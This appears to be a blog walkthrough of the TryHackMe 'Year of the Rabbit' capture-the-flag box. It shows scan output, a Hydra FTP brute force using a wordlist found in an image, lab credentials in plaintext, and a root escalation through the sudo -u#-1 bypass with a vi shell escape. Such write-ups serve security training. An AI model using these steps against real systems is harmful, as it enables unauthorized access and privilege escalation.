


Hello everyone,

Today we are going to do Year-of-the-rabbit machine from Tryhackme. we will see some stegnography,some rabbit holes and privesc with vi.


<!--truncate-->

## nmap results

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 13:35 EDT
Nmap scan report for 10.10.190.212 (10.10.190.212)
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.70 seconds
```

---

## dirsearch results

```c
[13:44:08] Starting:
[13:44:17] 301 -  315B  - /assets  ->  http://10.10.190.212/assets/
[13:44:31] 200 -    8KB - /index.html
[13:44:44] 403 -  278B  - /server-status
```

---

--> i got 2 files in `/assets`


--> first video was rickroll and i found one comment in `style.css` file

```py
 Nice to see someone checking the stylesheets.
 Take a look at the page: /sup3r_s3cr3t_fl4g.php
```

--> when i goto this file i got one alert saying

`disable javascript`

so i disabled javascript and found this :


--> and this time there was a directory called `sup3r_s3cr3t_fl4g`

--> so i ran dirsearch on this and found only `index.html`

--> i found this hidden directory after intercepting the response



--> after going to this directory i found one image and when i done `strings <image>` then i found this :


---

## Stegnography

--> and the text after `One of these is the password:` is not the exifdata but it's actully the list of passwords !

so we have to use them as a wordlist for hydra

--> so Let's brute force the ftp password for `ftpuser`

```bash
┌──(kali㉿kali)-[~/Documents/THM/Yearoftherabbit]
└─$ hydra -l ftpuser -P wordlist.txt ftp://10.10.190.212
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-02 14:41:00
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.190.212:21/
[21][ftp] host: 10.10.190.212   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-02 14:41:26
```

--> and i got password !

--> so Let's login on ftp !

---

## FTP

--> got this in ftp


--> This is `brainfuck` lanugage so Let's decode it !

--> and i got the password for `eli` and it must be a SSH password



```c
eli:DSpDiM1wAEwid
```

---

## SSH

--> when we will login with ssh then i got this message


--> then i done `locate s3cr3t` and found one directory


--> so Let's read that file

```c
Your password is awful, Gwendoline.
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

--> so now we have password of gwendoline so Let's login

--> and we got logged in and got `user.txt`

---

## Privesc

when i done `sudo -l` i found this :

```c
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

--> it means we can run `vi`as every user except root so we have to find something to bypass this because we want root shell

--> after some research i found this exploit from exploit-db

https://www.exploit-db.com/exploits/47502

--> so i made this command

```c
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

--> after that press `shift+;` and then write `!/bin/bash` and you will get root shell !

---
